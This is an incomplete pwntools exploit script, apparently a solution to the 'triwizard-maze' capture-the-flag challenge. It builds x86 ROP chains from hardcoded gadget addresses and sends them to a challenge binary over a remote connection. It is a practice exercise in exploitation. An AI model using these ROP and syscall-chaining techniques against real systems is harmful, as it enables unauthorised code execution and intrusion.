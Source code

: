 ```python
#!/usr/bin/env python3
from pwn import *

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
context.binary = exe = ELF('./dump')
DOCKER_PORT		= 1337
REMOTE_NC_CMD	= "nc triwizard-maze.challs.cyberchallenge.it 38202"	# `nc <host> <port>`

from pwnlib.tubes.tube import tube
tube.s		= tube.send
tube.sa		= tube.sendafter
tube.sl		= tube.sendline
tube.sla	= tube.sendlineafter
tube.r		= tube.recv
tube.ru		= tube.recvuntil
tube.rl		= tube.recvline

ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))
vleak = lambda valname, val: log.info(f"{valname}: 0x{val:x}")
chunks = lambda data, step: [data[i:i+step] for i in range(0, len(data), step)]

GDB_SCRIPT = """
set follow-fork-mode parent
"""

def conn():
    if args.REMOTE:
        return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]))
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT, aslr = True, env={"FLAG": "fake{flag}"})
    if args.DOCKER:
        return remote("localhost", DOCKER_PORT)
    return process([exe.path], env={"FLAG": "fake{flag}"})

BASE = 0x13370000
PRINT = BASE + 0x2d29
READ_CHAIN = BASE + 0x1f47
READ = BASE + 0x2edc 
SYSCALL = BASE + 0x22cd
BREAKLINE = 0x133746F0
BUFF = 0x13375d60
ENTRYNAME = 0x13375d6a
CHAIN_PROMT = b'Give me your x86 32bit ROP chain (exactly 1024 bytes):\n'
MAX_CHILDREN = 12

sendpayload = lambda io, payload: io.sa(CHAIN_PROMT, payload.ljust(1024, b'\x00')) if len(payload) <= 1024 else log.error("Payload too long")

def sys_exit(io, status):
    rop = ROP(exe)
    rop.call(SYSCALL, [1, status, 0, 0])
    
    sendpayload(io, rop.chain())
    exit(69)


def sys_open(io, parent, path):
    rop = ROP(exe)
    rop.call(READ, [0, BUFF, len(path)+1])
    rop.call(SYSCALL, [295, parent, BUFF, 0])
    rop.call(READ_CHAIN)

    sendpayload(io, rop.chain())
```